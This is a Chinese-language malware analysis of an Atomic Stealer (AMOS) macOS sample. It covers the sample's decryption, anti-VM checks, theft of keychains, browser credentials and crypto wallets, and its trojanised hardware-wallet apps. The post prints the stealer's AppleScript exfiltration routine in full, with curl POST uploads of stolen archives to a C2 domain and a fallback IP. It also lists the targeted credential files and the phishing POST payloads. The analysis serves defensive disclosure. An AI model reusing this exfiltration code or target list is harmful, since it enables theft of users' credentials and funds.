<!-- more -->


# Atomic Stealer (AMOS) 回归：ClickFix、伪装加密货币应用与新型 macOS 持久化机制

Atomic Stealer（通常追踪为 AMOS）已成为 macOS 威胁环境中最为持久的威胁之一。凭借无休止的开发周期和多样化的分发网络，它没有任何减缓的迹象。研究人员已广泛记录了其标志性战术："ClickFix"浏览器社会工程钓鱼提示、伪装的应用安装程序，以及最近的 [malext](https://gi7w0rm.medium.com/amos-stealer-malext-variant-spread-in-a-global-malvertising-campaign-using-free-text-sharing-4d240e11d7e2) 变体（通过恶意广告活动传播）。

2026年3月12日，Iru 研究人员识别出一个 Mach-O 二进制文件，其在 VirusTotal 上的检测率极低，与这些最近的 malext 变体高度一致。此样本的独特之处在于其分层的能力：自定义解密例程、反虚拟机 evasion、激进的数据窃取、硬件加密钱包木马化以及弹性化的持久化机制。本文将逐步深入分析每一个阶段。

*注意：VirusTotal 检测率可能自撰写以来已发生变化。*

## 恶意软件分析

`C42061d43760bfa805955b97afc015341241ce3273da0e3a3ddfa34b4219d5ca`

### 动态字符串解密

Iru 研究人员发现该恶意软件使用了可能的自定义解密例程，通过动态执行返回混淆后的脚本：

1.  字符串构建函数用于构建加密字符串并转换为十六进制。
2.  十六进制密文在通过 base64 解码之前先转换为 ASCII，解码所需的密钥通过参数3中的自定义哈希表提供。
3.  返回值被传递回 var_88。



*解密到 osascript*

**

*字符串构建函数中的十六进制 ASCII 密文*



*传入函数后的 ASCII 密文*

**

*返回的 osascript 被传回 var_88*

**

*完整的混淆反虚拟机 osascript*

### 反虚拟机检测

进一步分析显示，该脚本是一个混淆的反虚拟机检查 osascript，执行 `do shell script "system_profiler SPMemoryDataType"` 和 `do shell script "system_profiler SPHardwareDataType"` 来检测以下内容：

**虚拟机处理器：**

-   QEMU
-   VMware
-   KVM

**虚拟机硬件 IDs：**

-   Z31FHXYQ0J
-   C07T508TG1J2
-   C02TM2ZBHX87
-   Chip: unknown
-   Intel Core 2

**

*解密的 osascript*

### 主 Payload osascript 执行

在检查一次是否为虚拟机后，恶意软件继续使用上述主例程解密主 osascript payload。它在执行另一次 `write()` 调用之前再次检查 payload，在 while 循环中迭代写入 `/bin/zsh` 子进程。研究人员通过动态执行获取了最终 payload。







*Atomic Stealer 主 payload*

### 数据窃取能力

该窃密者针对受感染系统上广泛范围的敏感数据，系统性地将文件复制到暂存目录后再外传。值得注意的是，窃密者会删除之前受感染的工件（如 `/tmp/starter`、`~/.agent`、`~/.username`）以允许重新感染，但保留收集到的重要密码工件 `~/.pass` 以供其他重新感染使用。

在以下样本中，研究人员注意到浏览器历史记录收集配置被设置为 false。

```
-- 配置标志
set enableFileGrabber to "true"
set enableNoteStealer to "true"
set stealBrowsingHistory to "false"
```

**收集的数据包括：**

-   系统信息 — 通过 system_profiler 获取硬件/软件配置文件
-   用户密码 — 通过虚假对话框或空密码 bypass 收集；缓存到 `~/.pass` 可用于重新感染
-   macOS Keychain — 完整 Keychain 目录（通过硬件 UUID）和 login.keychain-db
-   Apple Notes — NoteStore.sqlite（+ WAL/SHM）、Notes 媒体附件，以及 Notes.app API 后备
-   Safari — 来自沙盒容器和用户 Cookies 目录的 Cookies.binarycookies；Safari 表单值
-   Chromium 浏览器（Chrome、Brave、Edge、Vivaldi、Opera、OperaGX、Arc、CocCoc、Chromium 变体）— cookies、登录数据、web 数据、加密钱包扩展数据（本地扩展设置、IndexedDB、本地存储）
-   Firefox/Waterfox — cookies、保存的登录凭据（logins.json）、加密密钥（key4.db）、表单历史、MetaMask 扩展 IndexedDB
-   加密浏览器扩展 — 300 多个硬编码的钱包扩展 ID 针对 Chromium 配置
-   桌面加密钱包 — Electrum、Exodus、Atomic、Wasabi、Ledger Live、Monero、Bitcoin Core、Litecoin Core、Dash Core、Electron Cash、Guarda、Dogecoin Core、Trezor Suite、Sparrow、Coinomi、Binance、TonKeeper
-   Telegram — 来自 tdata/ 的 key_datas、session 文件和 map 文件
-   OpenVPN — 来自 OpenVPN Connect/profiles/ 的连接配置文件
-   桌面和文档中的文件 — .txt、.pdf、.docx、.doc、.rtf、.jpeg、.jpg、.png、.wallet、.seed、.key、.keys、.kdbx（上限 30MB）
-   已安装应用程序列表 — 从 /Applications 枚举

### 数据外传

收集的数据使用 `ditto -c -k --sequesterRsrc <stagingDir> /tmp/out.zip` 压缩，并通过 POST curl 发送到域 **laislivon[.]com** 或 **92[.]246[.]136[.]14**，附带 **BuildID: "W/p4XE1zNPV1oC5f568m7flYdnExL6VJzVTk9Rjt8Ns="**、客户端参数 "0" 和活动参数 "0"。

```
-- 将所有窃取的数据压缩成 ZIP
do shell script "ditto -c -k --sequesterRsrc " & stagingDir & " /tmp/out.zip"

-- 外传到 C2
exfiltrateDataChunked(c2Server, userIdentifier, buildID, clientParam, campaignParam)

-- 清理暂存目录和 ZIP
try
    do shell script "rm -r " & stagingDir
    do shell script "rm /tmp/out.zip"
end try
```

在 exfiltrateDataChunked 脚本中：

```
on exfiltrateDataChunked(c2Server, username, buildID, clientParam, campaignParam)
    set maxChunkSize to 26214400 -- 25 MB
    set httpHeaders to "-H \"user: " & username & "\" -H \"BuildID: " & buildID & "\" -H \"cl: " & clientParam & "\" -H \"cn: " & campaignParam & "\""

    set zipFileSize to (do shell script "stat -f%z /tmp/out.zip") as integer

    -- 如果足够小，一次上传
    if zipFileSize is less than or equal to maxChunkSize then
        exfiltrateDataSingle(c2Server, httpHeaders)
        return
    end if

    -- 分块
    do shell script "split -b " & maxChunkSize & " /tmp/out.zip /tmp/chunk_"
    set chunkID to do shell script "head -c 8 /dev/urandom | xxd -p"
    set chunkFiles to paragraphs of (do shell script "ls -1 /tmp/chunk_* | sort")
    set totalChunks to count of chunkFiles

    set allChunksUploaded to true
    repeat with chunkIndex from 1 to totalChunks
        set chunkFilePath to item chunkIndex of chunkFiles
        set chunkPartNumber to (chunkIndex - 1) as text
        set chunkHeaders to httpHeaders & " -H \"X-Chunk-ID: " & chunkID & "\" -H \"X-Chunk-Part: " & chunkPartNumber & "\" -H \"X-Chunk-Total: " & (totalChunks as text) & "\""
        set chunkUploaded to false

        -- 每个块最多重试 3 次
        repeat with retryAttempt from 1 to 3
            try
                do shell script "curl --connect-timeout 120 --max-time 300 -X POST " & chunkHeaders & " -F \"file=@" & chunkFilePath & "\" " & c2Server & "/contact"
                set chunkUploaded to true
                exit repeat
            end try
            delay 10
        end repeat

        if not chunkUploaded then
            set allChunksUploaded to false
        end if
    end repeat

    -- 清理块
    do shell script "rm -f /tmp/chunk_*"

    -- 如果主 C2 失败，尝试备用 IP
    if allChunksUploaded then return

    set fallbackC2 to "http://92[.]246[.]136[.]14"
    repeat with retryAttempt from 1 to 3
        try
            set fallbackCmd to "curl --connect-timeout 120 --max-time 300 -X POST " & httpHeaders & " -F \"file=@/tmp/out.zip\" " & fallbackC2 & "/contact"
            do shell script fallbackCmd
            return
        end try
        delay 15
    end repeat
end exfiltrateDataChunked
```

外传函数将数据分块，每请求最多 25 MB，每个块最多重试 3 次，如果主 C2 域失败则回退到硬编码的备用 IP（**92[.]246[.]136[.]14**）。

### Ledger Wallet、Trezor Suite 和 Exodus 木马化

恶意软件使用获取的密码输入来实现持久化和进一步木马化现有的加密硬件钱包。它静默卸载现有应用并替换为木马化新版本。它使用用户密码使用 `sudo -S rm -r <.app wallet path>` 强制删除旧应用，然后将 `/tmp/<trojan>.zip` 中的 zip 文件提取到 `/Applications/<wallet.app>` 使用 `ditto -x -k`，使用 `chmod -R +x` 设置完全执行权限，并使用 `rm /tmp/<trojan.zip>` 清理 zip。此外，它还会将字符串 "User10" 写入 `.logged` 文件，这与之前分析的 [malext 变体](https://gi7w0rm.medium.com/amos-stealer-malext-variant-spread-in-a-global-malvertising-campaign-using-free-text-sharing-4d240e11d7e2) 相似。

**Zip 下载：**

-   `https://wusetail[.]com/zxc/app.zip` → `/tmp/app.zip` 替换 `/Applications/Ledger Wallet.app`
-   `https://wusetail[.]com/zxc/apptwo.zip` → `/tmp/apptwo.zip` 替换 `/Applications/Trezor Suite.app`
-   `https://wusetail[.]com/zxc/appex.zip` → `/tmp/appex.zip` 替换 `/Applications/Exodus.app`

木马化加密钱包样本与原始应用完全相同，仅更改了描述和主题。这些二进制文件使用临时签名，在动态运行时似乎没有建立持久化或传递下一阶段 payload。木马化加密钱包似乎专门用于钓鱼。

该二进制文件使用以下工作流程执行本地化 JavaScript 攻击：

-   **数据初始化：** 应用读取初始感染期间创建的 `~/.logged` 文件。
-   **钓鱼执行：** 启动钓鱼界面以获取用户密码和种子短语。
-   **数据外传：** 二进制文件通过 POST 请求将窃取的凭据传输到 **systellis[.]com**。
-   **Payload 格式化：** 所有外传数据都经过 Base64 编码，并包含从 `.logged` 文件中检索到的 "user10" 标识符 — 研究人员注意到这可能是活动标识符，尽管尚未确认。
-   **最终重定向：** 成功外传后，应用将受害者重定向到官方钱包下载页面以掩盖盗窃。



*读取 .logged 隐藏文件*



*从 logged 文件返回的字符串*



*以下域的 POST 请求*



*Index.html 页面*

POST 到 https://systellis[.]com/openex.php

```
{
  "username": "dXNlcjEw",
  "password": "ZW50ZXJwYXNzd29yZGxhaA=="
}
```

解码后为：

```
{
  "username": "user10",
  "password": "enterpasswordlah"
}
```



*put_seed.html*

POST 到 https://systellis[.]com/receiveex.php

```
{
  "username": "dXNlcjEw",
  "seed": "a2VlbiNpY29uI3F1YWxpdHkjY2FiYmFnZSNmYWJyaWMjZmFjZSNkYWQjYWJpbGl0eSNhYmlsaXR5I2RhZCNsYWIjdGlnZXI="
}
```

解码后为：

```
{
  "username": "user10",
  "seed": "keen#icon#quality#cabbage#fabric#face#dad#ability#ability#dad#lab#tiger"
}
```

